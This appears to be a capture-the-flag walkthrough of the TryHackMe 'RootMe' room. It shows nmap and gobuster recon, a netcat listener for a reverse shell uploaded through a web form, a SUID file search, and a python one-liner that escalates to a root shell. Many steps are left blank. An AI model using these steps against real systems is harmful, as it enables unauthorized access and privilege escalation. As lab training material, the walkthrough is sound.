


# RootMe


[RootMe](https://tryhackme.com/r/room/rrootme) is listed as an easy room, and covers a lot of different tools and aspects of security, which makes it a great room to complete for beginners.
An overview of what we’ll be using is listed here:  

* Basic linux commands
* Nmap scan
* Gobuster
* Netcat

## Task 1 - Deploy the machine

Set up environment IP as IP_Machine

```
export IP=10.10.234.161
```


## Task 2 - Reconnaissance

* Scan the machine, how many ports are open?
	
	```
	nmap -sV $IP | tee -a nmap-default.txt
	```

	File scan resulted [here](./files/nmap-default.txt)

	

* What version of Apache is running?
	
	

* What service is running on port 22?
	
	

* Find directories on the web server using the GoBuster tool. What is the hidden directory?
	
	```
	gobuster dir -w /usr/share/wordlists/dirb/common.txt -u $IP | tee -a gobuster-default.txt
	```

	File scan resulted [here](./files/gobuster-default.txt)

	
	

## Task 3 - Getting a shell

* Find a form to upload and get a reverse shell, and find the flag `user.txt`
	
	* Upload reverse shell 
		
		

	* Open terminal for netcat listening
	
		```
		nc -nvlp 8888
		```

		

	* Open file upload from website
	
		

	* Get access to server

		

	* Find and read file `user.txt`
	
		

## Task 4 - Privilege escalation

* Search for files with SUID permission, which file is weird? 

	```
	find / -type f -perm -4000 -ls 2>/dev/null
	```

	

* root.txt

	```
	/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
	```

	


